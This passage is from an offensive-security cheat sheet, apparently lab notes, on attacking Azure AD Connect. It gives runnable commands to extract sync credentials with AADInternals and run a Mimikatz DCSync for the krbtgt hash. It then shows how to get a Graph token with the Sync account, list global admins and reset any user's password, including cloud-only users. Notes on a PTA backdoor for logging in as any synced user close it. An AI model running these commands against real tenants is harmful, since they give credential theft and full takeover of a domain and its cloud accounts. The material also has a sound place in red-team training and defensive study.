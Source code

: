 #### Extract credentials from the server
```
Get-AADIntSyncCredentials
```

#### Run DCSync with creds of MSOL_* account
```
runas /netonly /user:defeng.corp\MSOL_782bef6aa0a9 cmd 
Invoke-Mimikatz -Command '"lsadump::dcsync/user:defeng\krbtgt /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

### Reset password of any user
- Using the Sync_* account we can reset password for any user. (Including Global Administrator and the user who created the tenant)

#### Using the creds, request an access token for AADGraph and save it to cache using the SYNC account.
```
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

#### Enumerate global admin
```
Get-AADIntGlobalAdmins
```

#### Get the ImmutableID
```
Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
```

#### Reset the Azure password
```
Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321" -Verbose
```

#### Reset password for cloud only user
- Need CloudAnchor ID which is the format <USER>_<OBJECTID>
```
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
Set-AADIntUserPassword -CloudAnchor "User_10caa362-7d18-48c9-a45b-9c3a78f3a96b" -Password "SuperSecretpass#12321" -Verbose
```

- Access Azure portal using the new password.

## Pass Through Authentication (PTA) Abuse
- Once we have admin access to an Azure AD connect server running PTA agent.
- Not reliable method to check if PTA is used, Check if module is available ```Get-Command -Module PassthroughAuthPSModule```
- Once the backdoor is installed, we can authenticate as any user synced from on-prem without knowing the correct password!
